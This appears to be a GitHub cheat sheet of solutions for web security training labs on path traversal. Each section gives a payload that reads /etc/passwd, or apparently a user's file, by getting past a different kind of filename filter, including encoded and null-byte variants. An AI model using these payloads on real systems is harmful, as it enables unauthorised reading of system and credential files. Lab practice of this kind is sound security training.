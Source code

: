 ## Use Burp Intruder and its worlist:

![sd](https://github.com/user-attachments/assets/deb9b141-a5d1-45f9-ae02-1a572947ca1b)

## File path traversal, traversal sequences blocked with absolute path bypass

```
/image?filename=/etc/passwd
```

## File path traversal, traversal sequences stripped non-recursively

```
/image?filename=..././..././..././etc/passwd
```

## File path traversal, traversal sequences stripped with superfluous URL-decode

```
%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

## File path traversal, validation of start of path

```
/image?filename=/var/www/images/../../../../etc/passwd
```

## File path traversal, validation of file extension with null byte bypass

```
../../../../../../etc/passwd%00.jpg
```

## Encoded

```
/image?filename=%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%38%25%36%66%25%36%64%25%36%35%25%32%66%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33%25%32%66%25%37%33%25%36%35%25%36%33%25%37%32%25%36%35%25%37%34
```

## Use my program for path traversal bruteforce
